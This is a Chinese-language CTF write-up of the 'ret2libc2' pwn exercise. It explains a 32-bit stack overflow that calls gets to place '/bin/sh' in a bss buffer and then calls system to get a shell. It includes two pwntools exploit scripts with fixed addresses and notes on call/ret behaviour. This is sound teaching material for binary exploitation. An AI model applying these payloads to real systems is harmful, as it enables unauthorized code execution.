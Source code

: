 ![image-20200915201444197](image-20200915201444197.png)

想调用system（'/bin/sh'）,但是想要一个地方储‘/bin/sh‘于是找到buf可以读写执行。于是想用个方法写’/bin/sh‘到buf。再调用在范围地址那调用EIP。开始短路了,想着用scanf然后发现自己tcl不懂参数，于是看了下大佬的解析用了get函数。于是大体思路就成：溢出调用get将’/bin/sh‘写入bss中的buf，再将返回地址指向system，并将buf传入system。

```python
from pwn import *

p=process('./ret2libc2')

e=ELF('./ret2libc2')
pay='a'*112+p32(e.plt['gets'])+p32(e.plt['system'])+p32(0x0804A080)+p32(0x0804A080)
p.sendline(pay)
p.sendline('/bin/sh')
p.interactive()   
```

做到这里时，我产生几个疑问：

1）gets为什么能将数据写入buf？

gets函数的作用是将接收到的数据写入参数中。我们将buf地址作为参数传入gets函数，gets函数将数据写入buf地址对应空间。

2）system为什么不跟上返回地址再加参数?

在通过第一次ret2libc调用到system时，system是正常调用的。所以在调用时不需更上返回地址。可以看到进入system后esp指向的就是第一个参数。

![image-20200915204940834](image-20200915204940834.png)

3）ctf-wiki中的payload的写法是什么？

payload的写法是溢出数据+get地址+edx地址+duf地址+system地址+返回地址+buf地址

按个人理解改写那种思路exp如下：

```python
from pwn import*

p=process('./ret2libc2')

e=ELF('./ret2libc2')
pay='a'*112+p32(e.plt['gets'])+p32(0x0804843d)+p32(0x0804A080)+p32(e.plt['system'])+p32(0)+p32(0x0804A080)
p.sendline(pay)
p.sendline('/bin/sh')
p.interactive()   
```

EDX处命令相当于： pop edx；ret；

而：

> CPU在执行call指令时需要进行两步操作:
>
> 1.将当前的IP(也就是函数返回地址)入栈，即：push EIP;
>
> 2.跳转，即： jmp dword ptr 内存单元地址。
>
> CPU在执行ret指令时只需要恢复IP寄存器即可，因此ret指令相当于pop EIP
